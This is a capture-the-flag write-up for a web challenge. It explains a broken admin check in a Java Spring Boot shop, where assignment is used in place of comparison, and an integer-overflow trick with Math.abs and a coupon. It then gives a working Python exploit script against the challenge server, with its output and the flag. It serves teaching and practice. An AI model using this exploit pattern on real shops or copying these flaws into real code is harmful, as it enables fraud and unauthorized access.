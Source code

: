 ```yaml
---
title: dry-ice-n-co
---
```


# dry-ice-n-co

## Introduction

smileyCTF

**Category:** Web Exploitation

**Write-up date:** 18/06/2025

**Question:**
Hi. I'm opening up my shop for you to buy my favorite thing in the world. DRY ICE!!!

Use coupon code `SMILEICE` at checkout for 20% off! That's coupon code `SMILEICE` at checkout for 20% off!

**Point:** 138 points

## Source code analysis

First impression, this chall source code is written from java, springboot application for exact. This application is
written follow MVC design pattern so it kinna easy for us to read the source code.

Looking at the code, we can see that the requirement for the flag is in `ShopController.java`

```java
private final List<DryIceProduct> availableProducts = new ArrayList<>(Arrays.asList(
        new DryIceProduct("flag", 1000000, "you should buy one of these (if you can afford it)"),
        new DryIceProduct("Small Block", 16, "5kg block of dry ice, perfect for small coolers"),
        new DryIceProduct("Medium Block", 30, "10kg block of dry ice, ideal for medium-sized coolers"),
        new DryIceProduct("Large Block", 50, "20kg block of dry ice, great for large coolers"),
        new DryIceProduct("Pellet Pack", 20, "5kg of dry ice pellets, perfect for shipping")
));
```

But when the user start, the application give us 100$. So somehow we have to buy a 1000000\$ item with 100\$

```java
public ShoppingCart() {
    this.items = new ArrayList<>();
    this.balance = 100; // Initial balance of $100
    this.couponCode = null;
}
```

Then how can we do this chall, thanks to some logic bug in route `/admin/add-product`, we could add something we want
into the website without admin permission.

```java

@PostMapping("/admin/add-product")
public String addProduct(@RequestParam String name,
                         @RequestParam int price,
                         @RequestParam String description,
                         HttpSession session) {
    User user = (User) session.getAttribute("user");
    if ((user.admin = true) && user != null && name != "flag") {
        availableProducts.add(new DryIceProduct(name, price, description));
    }
    return "redirect:/";
}
```

Look carefully, in the if statement, the `user.admin` is assignment, not comparison, meaning the website are not check
for admin, just checking for other one, therefor making us able to add product.

We can assign some negative number, hopping when buy the balance will go up. But when add negative item into the cart,
they suddenly turn into positive number.

![img.png](~/assets/dry-ice-n-co/img.png)

In the `getTotal` function, to avoid any negative number the application get te total then use `Math.abs(total)` to get
the positive value of the cart.

```java
public int getTotal() {
    int total = items.stream()
            .mapToInt(CartItem::getTotal)
            .sum();
    total = Math.abs(total);

    if (isCouponValid()) {
        total = (int) (total * (100.0 - (double) DISCOUNT_PERCENTAGE) / 100.0);
    }

    return total;
}
```

But `Math.abs()` have a hidden secret that it will take any 2's complement of the num as the positive value meaning that
when we use `Integer.MIN_VALUE`, the abs will be `Integer.MIN_VALUE` as well.

```java
public static int abs(int a) {
    return a < 0 ? -a : a;
}
```

But when we add using the min value, the balance will overflow result in our balance will become `Integer.MIN_VALUE`. So
using the coupon code earlier, we can reduce the total of the cart, effectively add some cash into our balance.

![img.png](~/assets/dry-ice-n-co/bal.png)

Using that balance, we can easily buy our flag.

## Exploit

```python
import random
import re

import requests

URL = "https://web-dry-ice-n-co-gkyz1s6q.smiley.cat"


def main():
    product_name = "Test Product" + str(random.randint(1, 10000))
    session = requests.Session()
    print("[+] Get new JSESSIONID.")
    session.get(URL)
    print("[+] Add new item that have Integer.MIN_VALUE price.")
    session.post(f"{URL}/admin/add-product", {
        "name": product_name,
        "description": "Test Product",
        "price": -2147483648,
    })
    print("[+] Add new item that have Integer.MAX_VALUE price.")
    session.post(f"{URL}/add", {
        "productName": product_name,
        "quantity": 1
    })
    print("[+] Apply coupon to avoid integer overflow.")
    session.post(f"{URL}/apply-coupon", {
        "couponCode": "SMILEICE"
    })
    print("[+] Buying negative item to add balance into account.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Balance:", re.findall(r"(?<=<h3 class=\"text-center\">\$<span>)\d+", req.text)[0])
    print("[+] Add flag into cart.")
    session.post(f"{URL}/add", {
        "productName": "flag",
        "quantity": 1
    })
    print("[+] Buying flag.")
    req = session.post(f"{URL}/purchase", {})
    print("[+] Flag:", re.findall(r"(?<=<pre>)[^<]+", req.text)[0])

if __name__ == "__main__":
    main()
```

Output

```
[+] Get new JSESSIONID.
[+] Add new item that have Integer.MIN_VALUE price.
[+] Add new item that have Integer.MAX_VALUE price.
[+] Apply coupon to avoid integer overflow.
[+] Buying negative item to add balance into account.
[+] Balance: 1717987018
[+] Add flag into cart.
[+] Buying flag.
[+] Flag: .;,;.{this_is_not_a_political_statement_btw}
```

**FLAG:** .;,;.{this_is_not_a_political_statement_btw}
